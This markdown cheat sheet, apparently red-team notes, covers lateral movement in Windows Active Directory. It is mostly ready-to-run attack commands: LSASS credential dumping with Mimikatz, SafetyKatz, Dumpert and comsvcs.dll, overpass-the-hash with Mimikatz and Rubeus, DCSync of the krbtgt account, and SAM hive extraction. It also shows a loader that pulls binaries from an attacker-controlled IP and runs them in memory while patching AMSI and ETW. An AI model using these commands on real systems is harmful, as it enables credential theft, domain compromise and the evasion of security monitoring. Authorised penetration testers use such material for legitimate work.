 # Lateral Movement
* [General](#General)
* [Dumping LSASS](#Dumping-LSASS)
* [Overpass The Hash](#Overpass-The-Hash)
* [DC-Sync](#DC-Sync)
* [Offensive .NET](#Offensive-.NET)
* [Mimikatz](#Mimikatz) 
* [Check Local Admin Access](#Check-Local-Admin-Access)  

## General
#### Connect to machine with administrator privs
```
Enter-PSSession -Computername <COMPUTERNAME>
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

#### PSremoting NTLM authetication (after overpass the hash)
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication Negotiate 
```

#### Execute commands on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -Scriptblock {<COMMAND>} 
Invoke-Command -Scriptblock {<COMMAND>} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <COMPUTERNAME> -FilePath <PATH>
Invoke-Command -FilePath <PATH> $sess
```

#### Execute locally loaded function on a list of remote machines
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content computers.txt)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content computers.txt)
```

#### Runas other user
```
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

## Dumping LSASS
#### Dump credentials on a local machine using Mimikatz.
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

#### Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```

#### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
```
SharpKatz.exe --Command ekeys
```

#### Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

#### Using pypykatz (Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```

#### Using comsvcs.dll
```
tasklist /FI "IMAGENAME eq lsass.exe" 
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <LSASS PROCESS ID> C:\Users\Public\lsass.dmp full
```

#### From a Linux attacking machine using impacket.


#### From a Linux attacking machine using Physmem2profit

## Overpass The Hash
- Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)

#### Mimikatz
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### Mimikatz local admin
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<COMPUTERNAME> /ntlm:<HASH> /run:powershell.exe"'
```

#### SafetyKatz
```
SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:cmd.exe" "exit" 
```

#### Rubeus
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:<USER> /rc4:<NTLM HASH> /ptt
```

- Below command needs elevation
```
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## DC Sync
- Extract creds from the DC without code execution using DA privileges.

#### Mimikatz DCSync attack
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

#### Safetykatz.exe
```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## Offensive .NET
- https://github.com/Flangvik/NetLoader
- Load binary from filepath or URL and patch AMSI & ETW while executing
```
C:\Users\Public\Loader.exe -path http://xx.xx.xx.xx/something.exe
```

#### Use custom exe Assembyload to run netloader in memory and then load binary
```
C:\Users\Public\AssemblyLoad.exe http://xx.xx.xx.xx/Loader.exe -path http://xx.xx.xx.xx/something.exe
```

## Mimikatz
#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

#### Mimikatz dump lsa (krbtgt to)
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Check Local Admin Access
#### Powerview
```
Find-LocalAdminAccess -Verbose
```

### Other scripts
```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
